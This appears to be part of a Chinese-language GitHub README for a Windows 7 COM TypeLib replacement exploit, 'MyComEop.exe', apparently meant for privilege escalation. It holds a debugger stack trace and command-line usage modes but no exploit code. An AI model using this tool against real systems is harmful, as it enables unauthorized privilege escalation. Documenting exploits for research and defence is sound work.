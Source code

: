 ```
1f 00000000`0288f760 000007fe`ff52d1d6 : 00000000`0361e890 00000000`037da938 00000000`00000400 00000000`00000000 : ole32!ThreadDispatch+0x29 [d:\w7rtm\com\ole32\com\dcomrem\chancont.cxx @ 298] 
20 00000000`0288f790 00000000`77639bd1 : 00000000`00000000 00000000`00000000 00000000`00000000 b2698378`e8b9daaa : ole32!ThreadWndProc+0xaa [d:\w7rtm\com\ole32\com\dcomrem\chancont.cxx @ 654] 
21 00000000`0288f810 00000000`776398da : 00000000`0288f970 000007fe`ff52d12c 000007fe`ff6c5780 00000000`006c4200 : USER32!UserCallWinProcCheckWow+0x1ad
22 00000000`0288f8d0 000007fe`ff52d0ab : 00000000`000b0098 00000000`000b0098 000007fe`ff52d12c 00000000`00000000 : USER32!DispatchMessageWorker+0x3b5
23 00000000`0288f950 000007fe`ff653e57 : 00000000`0361e890 00000000`00000000 00000000`0361e890 000007fe`ff513032 : ole32!CDllHost::STAWorkerLoop+0x68 [d:\w7rtm\com\ole32\com\objact\dllhost.cxx @ 957] 
24 00000000`0288f9b0 000007fe`ff500106 : 00000000`0361e890 00000000`036d6510 00000000`00000000 00000000`00000000 : ole32!CDllHost::WorkerThread+0xd7 [d:\w7rtm\com\ole32\com\objact\dllhost.cxx @ 834] 
25 00000000`0288f9f0 000007fe`ff500182 : 00000000`00000000 00000000`00000000 00000000`00000000 00000000`00000000 : ole32!CRpcThread::WorkerLoop+0x1e [d:\w7rtm\com\ole32\com\dcomrem\threads.cxx @ 257] 
26 00000000`0288fa30 00000000`7773652d : 00000000`00000000 00000000`00000000 00000000`00000000 00000000`00000000 : ole32!CRpcThreadCache::RpcWorkerThreadEntry+0x1a [d:\w7rtm\com\ole32\com\dcomrem\threads.cxx @ 63] 
27 00000000`0288fa60 00000000`7786c521 : 00000000`00000000 00000000`00000000 00000000`00000000 00000000`00000000 : kernel32!BaseThreadInitThunk+0xd
28 00000000`0288fa90 00000000`00000000 : 00000000`00000000 00000000`00000000 00000000`00000000 00000000`00000000 : ntdll!RtlUserThreadStart+0x21
```
我的漏洞利用工具测试方式如下,需要管理员运行
```
1.只适用Windows7系统直接运行,无参数,替换默认Typelib

MyComEop.exe

2.替换指定接口TypeLIb文件路径的Com组件TypeLIb,比如C:\xxx.dll

MyComEop.exe [u] [TypeLib_Path]

3.替换指定接口IID的Com组件TypeLIb,比如 {55e3ea25-55cb-4650-8887-18e8d30bb4bc}

MyComEop.exe [u] [IID_Interface]

4.高级模式接口IID=[IID_Interface],接口名称=[InterfaceName],接口的TypeLib_GUID=[TypeLib_GUID_Interface],接口TypeLIb文件路径=[TypeLib_Path]

MyComEop.exe [u] [IID_Interface] [InterfaceName] [TypeLib_GUID_Interface] [TypeLib_Path] [Disable_Redirection]

5.不替换文件,仅测试指定接口IID的Com组件TypeLIb利用,比如 {55e3ea25-55cb-4650-8887-18e8d30bb4bc}

MyComEop.exe [t] [IID_Interface]

```
#### 运行效果 ####
